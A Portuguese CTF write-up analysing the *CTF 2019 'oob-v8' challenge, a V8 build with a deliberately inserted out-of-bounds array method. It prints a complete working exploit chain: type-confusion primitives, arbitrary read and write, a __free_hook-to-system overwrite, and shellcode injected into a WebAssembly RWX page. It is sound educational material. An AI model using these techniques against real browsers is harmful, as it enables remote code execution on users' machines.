




## OOB-V8 (*CTF 2019): análise do grupo

Este README reúne o desafio, os trechos de código relevantes e nossa análise da falha. Seguimos a cadeia **índice incorreto → interpretação do armazenamento → alteração do `Map` → primitivas de leitura e escrita → desvio do fluxo de execução**. O [writeup de referência](https://faraz.faith/2019-12-13-starctf-oob-v8-indepth/) documenta a exploração original; aqui organizamos o raciocínio e acrescentamos um modelo próprio para separar comprimento lógico de capacidade física.

### Informações gerais

+ Artefato: V8
+ Versão: v7.5.0
+ Data: 5 de abril de 2019
+ Descrição: método vulnerável introduzido manualmente no V8
+ CTF: *CTF 2019
+ Nome do desafio: oob-v8

O diretório `build/` contém o patch e a receita de compilação; `challenge/` contém o binário e os arquivos auxiliares; `solution/` reúne o código e as figuras da exploração; `contribuicao/` contém nosso modelo e seus testes. Para reconstruir o binário, execute `bash build/build.sh` na raiz do repositório. O script usa Docker e grava o resultado em `challenge/`. O pacote e os binários originais também estão em `attachment/` e `challenge/`.

### 1. O índice usado pelo método vulnerável

O patch em [`build/oob.diff`](./build/oob.diff) registra o método `oob` em `Array.prototype`. O trecho decisivo está abaixo. Conforme o ramo escolhido, ele lê ou escreve em `elements[length]`, usando o comprimento do array como índice. Para os elementos visíveis de um array de comprimento `L`, os índices válidos terminam em `L - 1`.

```
+BUILTIN(ArrayOob){
+    uint32_t len = args.length();
+    if(len > 2) return ReadOnlyRoots(isolate).undefined_value();
+    Handle<JSReceiver> receiver;
+    ASSIGN_RETURN_FAILURE_ON_EXCEPTION(
+            isolate, receiver, Object::ToObject(isolate, args.receiver()));
+    Handle<JSArray> array = Handle<JSArray>::cast(receiver);
+    FixedDoubleArray elements = FixedDoubleArray::cast(array->elements());
+    uint32_t length = static_cast<uint32_t>(array->length()->Number());
+    if(len == 1){
+        // leitura
+        return *(isolate->factory()->NewNumber(elements.get_scalar(length)));
+    }else{
+        // escrita
+        Handle<Object> value;
+        ASSIGN_RETURN_FAILURE_ON_EXCEPTION(
+                isolate, value, Object::ToNumber(isolate, args.at<Object>(1)));
+        elements.set(length,value->Number());
+        return ReadOnlyRoots(isolate).undefined_value();
+    }
+}
```

### 2. Nossa contribuição: distinguir comprimento de capacidade

Nós fizemos o [modelo de capacidade](./contribuicao/modelo_capacidade.js) e os [testes de fronteira](./contribuicao/modelo_capacidade.test.js) para esclarecer uma condição que muda o efeito da falha. O índice `length` viola sempre o comprimento lógico do array, mas não ultrapassa necessariamente a capacidade do `FixedDoubleArray`. Essa distinção ajuda a avaliar quando o acesso pode alcançar outro objeto na memória.

Chamamos o comprimento de `L`, a capacidade de `C` e o índice acessado de `i`. No patch, `i = L`. Assim, `i >= L` é sempre verdadeiro. Quando `C = L`, também temos `i >= C`: o acesso ultrapassa o armazenamento. Quando `C > L`, o índice está na capacidade excedente. Nossa tabela compara essas situações sem presumir um layout específico da heap:

```text
Comprimento | Capacidade | Índice acessado | Resultado
3           | 3          | 3              | fora do armazenamento
3           | 8          | 3              | dentro da capacidade excedente
```

Podemos reproduzir o resultado com `node contribuicao/modelo_capacidade.js` e verificar os casos de fronteira com `node --test contribuicao/modelo_capacidade.test.js`. O programa classifica índices; não executa o V8. Para concluir que a escrita alcança o `Map`, precisamos observar a capacidade e a vizinhança dos objetos no binário do desafio.

### 3. Do limite do array ao campo `Map`

O exemplo a seguir permite inspecionar um array de números com `%DebugPrint` no `d8`. Nas figuras do desafio, o armazenamento dos elementos aparece imediatamente antes do objeto `JSArray`. Sob essa disposição e com capacidade igual ao comprimento, o acesso no índice `length` pode alcançar o campo `Map` do objeto seguinte. Essa adjacência é uma observação do exemplo, não uma propriedade garantida para qualquer array.

```
let a = [1.1, 2.2, 3.3];
%DebugPrint(a);
Math.cosh(1);
```





### 4. A mesma sequência de bits, dois tipos

O `Map` descreve a estrutura do objeto e orienta como o V8 interpreta seus elementos. Quando substituímos o `Map` de um array pelo de outro tipo de array, o motor passa a interpretar os mesmos bits segundo outra representação:

1. Num array de objetos, o valor de um elemento é tratado como referência a um objeto.

2. Num array de números de ponto flutuante, os bits são lidos como um número `double`.

A troca cria dois caminhos complementares. Podemos ler uma referência como número para descobrir um endereço; também podemos apresentar os bits de um endereço como número e fazer o V8 tratá-los como referência. As funções a seguir materializam esses caminhos.

No primeiro exemplo, `obj_arr` guarda um objeto. Ao receber temporariamente o `Map` de `fl_arr`, o acesso a `obj_arr[0]` expõe os bits da referência como um número. Depois restauramos o `Map` original.

```
var temp_obj = {"A":1};
var obj_arr = [temp_obj];
var fl_arr = [1.1, 1.2, 1.3, 1.4];
var map1 = obj_arr.oob();
var map2 = fl_arr.oob();

obj_arr.oob(map2);
let addr = obj_arr[0];
console.log("[+] endereço de temp_obj: 0x" + ftoi(addr).toString(16));
// [+] endereço de temp_obj: 0x2c4b4c4eab1
```

No segundo exemplo, invertemos os mapas: os bits guardados em `fl_arr[0]` passam a ser interpretados como referência.

```
fl_arr.oob(map1);
let fakeobj = fl_arr[0]; // treat 1.1 in hex format as an address of object
console.log("[+] fakeobj: 0x" + ftoi(fakeobj).toString(16));
```

Reunimos os dois movimentos nas primitivas `addrof` e `fakeobj`:

```
var temp_obj = {"A":1};
var obj_arr = [temp_obj];
var fl_arr = [1.1, 1.2, 1.3, 1.4];
var map1 = obj_arr.oob();
var map2 = fl_arr.oob();

function addrof(in_obj) {
    obj_arr[0] = in_obj;    // Primeiro, colocamos no índice 0 o objeto cujo endereço queremos descobrir
    obj_arr.oob(map2);      // Substituímos o map do array de objetos pelo map do array de números
    let addr = obj_arr[0];  // Obtemos o endereço ao acessar o índice 0
    obj_arr.oob(map1);      // Restauramos o map original
    return ftoi(addr);      // Retornamos o endereço como BigInt
}

function fakeobj(addr) {
    fl_arr[0] = itof(addr);     // Primeiro, colocamos o endereço como número de ponto flutuante no índice 0
    fl_arr.oob(map1);           // Substituímos o map do array de números pelo map do array de objetos
    let fake = fl_arr[0];       // Obtemos e guardamos o objeto falso naquele endereço
    fl_arr.oob(map2);           // Restauramos o map original
    return fake;                // Retornamos o objeto
}
```

Para preservar os bits nas conversões entre `double` e inteiro, usamos as duas visões do mesmo `ArrayBuffer`:

```
/// Funções auxiliares para converter entre números de ponto flutuante e inteiros
var buf = new ArrayBuffer(8); // 8 byte array buffer
var f64_buf = new Float64Array(buf);
var u64_buf = new Uint32Array(buf);

function ftoi(val) { // typeof(val) = float
    f64_buf[0] = val;
    return BigInt(u64_buf[0]) + (BigInt(u64_buf[1]) << 32n); // Consideramos a ordem de bytes little-endian
}

function itof(val) { // typeof(val) = BigInt
    u64_buf[0] = Number(val & 0xffffffffn);
    u64_buf[1] = Number(val >> 32n);
    return f64_buf[0];
}
```

### 5. Transformar a confusão de tipos em acesso à memória

#### Leitura arbitrária

Depois de obter endereços e referências falsas, precisamos controlar o ponteiro `elements` que uma leitura usa. O exemplo do desafio constrói um array de quatro números e sobrepõe a ele a interpretação de um objeto falso. O raciocínio é:

1. No layout observado, o armazenamento dos quatro elementos fica 0x30 bytes antes do objeto do array.
2. O primeiro elemento recebe os bits do `Map` de um array de números; eles servirão como `Map` do objeto falso.
3. O endereço de destino fica em `element[2]`, posição reinterpretada como o ponteiro `elements` desse objeto falso.
4. A leitura de `fakeArray[0]` alcança o endereço apontado pelo campo `elements`, considerando o deslocamento de 0x10 mostrado no exemplo.



```
// Para revelar o conteúdo da string a seguir:
let target_string = "AAAAAAAA";
let target_string_addr = addrof(target_string);
console.log("[+] endereço da string de destino: 0x" + target_string_addr.toString(16));
// %SystemBreak();
// [+] endereço da string de destino: 0xc6a37f9f3c9
// (gdb) x/32xw 0xc6a37f9f3c9-1
// 0xc6a37f9f3c8:	0xd9840461	0x00003369	0xe62bbeea	0x00000008
// 0xc6a37f9f3d8:	0x41414141	0x41414141	0xd9840461	0x00003369  <-- target_string
// 0xc6a37f9f3e8:	0xfe1f98a6	0x00000012	0x67726174	0x735f7465

let floatArray = [1.1, 1.2, 1.3, 1.4];
let floatArrayMap = floatArray.oob();
floatArray[0] = floatArrayMap;
floatArray[2] = itof(BigInt(target_string_addr));
console.log("[+] endereço revelado de floatArray: 0x" + addrof(floatArray).toString(16));
// %SystemBreak();

// [+] endereço revelado de floatArray: 0x3dbbd148f619
// (gdb) x/32xw 0x3dbbd148f619-1-0x30
// 0x3dbbd148f5e8:	0xd98414f9	0x00003369	0x00000000	0x00000004  <-- FixedDoubleArray
// 0x3dbbd148f5f8:	0x43142ed9	0x00003fb1	0x33333333	0x3ff33333
// 0x3dbbd148f608:	0x37f9f3c9	0x00000c6a	0x66666666	0x3ff66666  <-- elements[2]
// 0x3dbbd148f618:	0x43142ed9	0x00003fb1	0xd9840c71	0x00003369  <-- JSArray
// 0x3dbbd148f628:	0xd148f5e9	0x00003dbb	0x00000000	0x00000004  <-- ponteiro elements
// 0x3dbbd148f638:	0xd9840561	0x00003369	0x43142ed9	0x00003fb1
// 0x3dbbd148f648:	0xd98412c9	0x00003369	0x00000000	0x00000001
// 0x3dbbd148f658:	0x00000000	0x00000400	0xd98413b9	0x00003369

let fakeArray = fakeobj(addrof(floatArray)-0x20n);
console.log("[+] valor revelado: 0x" + ftoi(fakeArray[0]).toString(16)); // Lemos o valor em target_string_addr + 0x10
```

O código abaixo encapsula a preparação do objeto falso, o ajuste do endereço e a leitura. A correção do deslocamento depende do layout observado nesse binário.

```
// Usamos este array para ler e escrever em endereços arbitrários
var arb_rw_arr = [float_arr_map, 1.2, 1.3, 1.4];

console.log("[+] array de números controlado: 0x" + addrof(arb_rw_arr).toString(16));

function arb_read(addr) {
    // A leitura exige ponteiros com tag; por isso, ajustamos o endereço
    if (addr % 2n == 0)
	addr += 1n;

    // Criamos um objeto falso sobre o array preparado, com o map de um array de números
    let fake = fakeobj(addrof(arb_rw_arr) - 0x20n);

    // Alteramos o ponteiro elements para apontar a read_addr - 0x10
    arb_rw_arr[2] = itof(BigInt(addr) - 0x10n);

    // O índice 0 retorna o valor em read_addr
    return ftoi(fake[0]);
}
```


#### Escrita arbitrária

Uma escrita em `fakeArray[0]` reutiliza a mesma ideia, mas não serve de forma uniforme para todos os endereços. O [writeup original](https://faraz.faith/2019-12-13-starctf-oob-v8-indepth/) registra falha ao tentar atingir certos alvos, incluindo `__free_hook`. O exemplo abaixo mostra um alvo diferente: o conteúdo de uma string do ambiente JavaScript.

```
let target_string = "AAAAAAAA";
let target_string_addr = addrof(target_string);
console.log("[+] endereço da string de destino: 0x" + target_string_addr.toString(16));

let floatArray = [1.1, 1.2, 1.3, 1.4];
let floatArrayMap = floatArray.oob();
floatArray[0] = floatArrayMap;
floatArray[2] = itof(BigInt(target_string_addr));
console.log("[+] endereço revelado de floatArray: 0x" + addrof(floatArray).toString(16));

let fakeArray = fakeobj(addrof(floatArray)-0x20n);
console.log("[+] valor revelado: 0x" + ftoi(fakeArray[0]).toString(16)); // Lemos o valor em target_string_addr + 0x10

console.log("[+] tentativa de escrita deste valor: " + itof(BigInt(0x4242424242424242)));
fakeArray[0] = itof(BigInt(0x4242424242424242));
console.log("[+] valor revelado de fakeArray[0]: " + fakeArray[0]);
console.log("[+] conteúdo revelado de target_string: " + target_string)

// SAÍDA
root@48d3ec3e0728:/build/v8/v8# ./out.gn/x64.release/d8 --allow-natives-syntax /solve/solve.js
[+] endereço da string de destino: 0x24bf42cdf3c9
[+] endereço revelado de floatArray: 0x292080f9f9
[+] valor revelado: 0x4141414141414141
[+] tentativa de escrita deste valor: 156842099844.53125
[+] valor revelado de fakeArray[0]: 156842099844.53125
[+] conteúdo revelado de target_string: DBBBBBB // a conversão BigInt -> Float -> byte perde precisão
```

A função seguinte resume essa primeira forma de escrita. Ela ainda passa por uma conversão para `double`, o que limita a precisão dos bits gravados.

```
function initial_arb_write(addr, val) {
    // Criamos um objeto falso sobre o array preparado, com o map de um array de números
    let fake = fakeobj(addrof(arb_rw_arr) - 0x20n);

    // Alteramos o ponteiro elements para apontar a write_addr - 0x10
    arb_rw_arr[2] = itof(BigInt(addr) - 0x10n);

    // Escrevemos no índice 0 como número de ponto flutuante
    fake[0] = itof(BigInt(val));
}
```

**Escrita de bytes com `DataView`**

Para controlar os bytes gravados, o exemplo usa `ArrayBuffer` como armazenamento e `DataView` como interface de escrita em 64 bits. Isso evita depender do valor numérico representado pelo `double` no momento da gravação final.

O passo decisivo é redirecionar o campo `backing_store` do `ArrayBuffer` para o endereço de destino. Depois, `setBigUint64` escreve por essa visão do armazenamento. O deslocamento de 0x20 até `backing_store` é específico da estrutura usada no desafio.



```
function arb_write(addr, val) {
    let buf = new ArrayBuffer(8);
    let dataview = new DataView(buf);
    let buf_addr = addrof(buf);
    let backing_store_addr = buf_addr + 0x20n;
    initial_arb_write(backing_store_addr, addr);
    dataview.setBigUint64(0, BigInt(val), true);
}
```

### 6. Primeira rota histórica: `__free_hook` e `system`

O writeup apresenta duas formas de usar as primitivas para alterar o fluxo de execução. Na primeira, o objetivo é gravar o endereço de `system` em `__free_hook`. Para calcular ambos os endereços, precisamos antes encontrar a base da glibc. Como os objetos JavaScript e as estruturas de `ptmalloc` ocupam regiões diferentes, a análise percorre ponteiros encontrados na memória até alcançar referências à heap do processo, ao executável e à glibc.

#### Da heap do V8 para a heap do processo
```
(gdb) search-pattern 0x000055d8 little 0x0000101634300000-0x0000101634340000
[+] Buscando '\xd8\x55\x00\x00' in 0x0000101634300000-0x0000101634340000
[+] In (0x101634300000-0x101634340000), permissão=rw-
  0x101634300014 - 0x101634300024  →   "\xd8\x55\x00\x00[...]"
  0x10163430001c - 0x10163430002c  →   "\xd8\x55\x00\x00[...]"
```

```
// buf_addr = 0x10163430ddd0
// v8_heap_base_addr = buf_addr & 0xffffffff0000n
let buf_addr = addrof(buf);
let v8_heap_base_addr = buf_addr & 0xffffffff0000n
let heap_ptr_addr = v8_heap_base_addr + 0x10n;

let heap_ptr = arb_read(heap_ptr_addr);
let heap_base = heap_ptr
console.log("[+] ponteiro revelado para a heap: 0x" + heap_ptr.toString(16));

// SAÍDA
root@48d3ec3e0728:/build/v8/v8# ./out.gn/x64.release/d8 --allow-natives-syntax /solve/solve.js
[+] ponteiro revelado para a heap: 0x555809da46d0
[+] endereço base da heap: 0x555809d2c000
```

#### Da heap do processo para o executável

O próximo endereço do exemplo é lido na heap do processo. Subtrair o deslocamento conhecido do ponteiro observado fornece a base do executável PIE. Esse deslocamento não é uma constante geral do V8.

```
(gdb) search-pattern 0x0000558485 little 0x0000558487367000-0x0000558487415000
[+] Buscando '\x85\x84\x55\x00\x00' in 0x0000558487367000-0x0000558487415000
[+] In '[heap]'(0x558487367000-0x558487415000), permissão=rw-
  0x55848736966b - 0x55848736967f  →   "\x85\x84\x55\x00\x00[...]"
(gdb) x/32xw 0x558487369668
0x558487369668:	0x85c259b5	0x00005584	0x0000001d	0x00000000
0x558487369678:	0x87369a80	0x00005584	0x00000000	0x65757274
```

```
let text_seg_ptr= arb_read(heap_base_addr + 0x2668n);
let pie_base_addr = text_seg_ptr - 0xBE9B5n;
console.log("[+] ponteiro revelado para PIE: 0x" + pie_base_addr.toString(16));
```

#### Da tabela `.got` para a glibc

Com a base do PIE, localizamos a entrada de `puts` na `.got`. Seu conteúdo é um ponteiro para a função na glibc; subtraímos o deslocamento de `puts` para obter a base da biblioteca usada nesse ambiente.

```
(gdb) got puts
Proteção da GOT: Full RelRO | Funções na GOT: 228
[0x5644e9dfe3b8] puts@GLIBC_2.2.5  →  0x7fd36c527970
```

```
let puts_got_addr = pie_base_addr + 0xD9A3B8n;
let puts_addr = arb_read(puts_got_addr);
let libc_base_addr = puts_addr - 0x80970n;
console.log("[+] ponteiro revelado para a libc: 0x" + libc_base_addr.toString(16));
```

#### Redirecionar o gancho de liberação

Conhecida a base, somamos os deslocamentos dos símbolos `__free_hook` e `system` e usamos a primitiva de escrita. Os números abaixo pertencem à versão da glibc do desafio; não devem ser reaproveitados sem conferência em outro ambiente.
```
(gdb) p &__free_hook
$1 = (void (**)(void *, const void *)) 0x7f55961f08e8 <__free_hook>

(gdb) p system
$2 = {int (const char *)} 0x7f5595e52420 <__libc_system>
```

```
let free_hook_addr = libc_base_addr + 0x3ed8e8n;
let system_addr = libc_base_addr + 0x4f420n;
arb_write(free_hook_addr, system_addr);
%SystemBreak();

// VERIFICAÇÃO DA SAÍDA
(gdb) p __free_hook
$1 = (void (*)(void *, const void *)) 0x7fc5e6103420 <__libc_system>
```

No encadeamento descrito pelo writeup, a liberação da string `/bin/sh` aciona o gancho já alterado:
```
console.log("/bin/sh");
```

### 7. Segunda rota histórica: página RWX de WebAssembly

A outra rota usa o comportamento de versões antigas do V8 ao compilar WebAssembly. O módulo abaixo exporta uma função `main` que retorna 42. No ambiente do desafio, a instância permite localizar uma página RWX ligada ao código compilado. O fluxo passa por essa página antes de chegar à função; por isso, a escrita de bytes nela pode alterar o destino executado.


```
// https://wasdk.github.io/WasmFiddle/
var wasm_code = new Uint8Array([0,97,115,109,1,0,0,0,1,133,128,128,128,0,1,96,0,1,127,3,130,128,128,128,0,1,0,4,132,128,128,128,0,1,112,0,0,5,131,128,128,128,0,1,0,1,6,129,128,128,128,0,0,7,145,128,128,128,0,2,6,109,101,109,111,114,121,2,0,4,109,97,105,110,0,0,10,138,128,128,128,0,1,132,128,128,128,0,0,65,42,11]);
var wasm_mod = new WebAssembly.Module(wasm_code);
var wasm_instance = new WebAssembly.Instance(wasm_mod);
var f = wasm_instance.exports.main;

var rwx_page_addr = arb_read(addrof(wasm_instance)-1n+0x88n);

console.log("[+] endereço da página RWX do Wasm: 0x" + rwx_page_addr.toString(16));

// SAÍDA
[+] endereço da página RWX do Wasm: 0x7b54b655000
```

O trecho final do exemplo grava os bytes do shellcode na página localizada e chama `main`. Assim como os deslocamentos da rota anterior, o endereço do campo usado para encontrar essa página depende da versão e do binário.

```
function copy_shellcode(addr, shellcode) {
    let buf = new ArrayBuffer(0x100);
    let dataview = new DataView(buf);
    let buf_addr = addrof(buf);
    let backing_store_addr = buf_addr + 0x20n;
    initial_arb_write(backing_store_addr, addr);

    for (let i = 0; i < shellcode.length; i++) {
	dataview.setUint32(4*i, shellcode[i], true);
    }
}

// referência: https://www.anquanke.com/post/id/267518?hmsr=joyk.com&utm_source=joyk.com&utm_medium=referral#h3-14
var shellcode = [
  0x99583b6a, 0x2fbb4852,
  0x6e69622f, 0x5368732f,
  0x57525f54, 0x050f5e54
];

copy_shellcode(rwx_page_addr, shellcode);
f();
```

### 8. O que a análise demonstra

O patch usa o comprimento como índice de acesso, e nosso modelo mostra por que isso basta para violar o limite lógico do array. As figuras e os exemplos do desafio ilustram uma disposição de memória na qual esse acesso também alcança o `Map` de um `JSArray`. A partir daí, a troca de mapas explica as primitivas `addrof` e `fakeobj`; o redirecionamento de `elements` e `backing_store` explica as leituras e escritas posteriores. As duas rotas finais dependem de características históricas do V8 e da glibc presentes no ambiente do desafio. Nós mantivemos essas dependências explícitas para não generalizar os endereços e deslocamentos do exemplo.
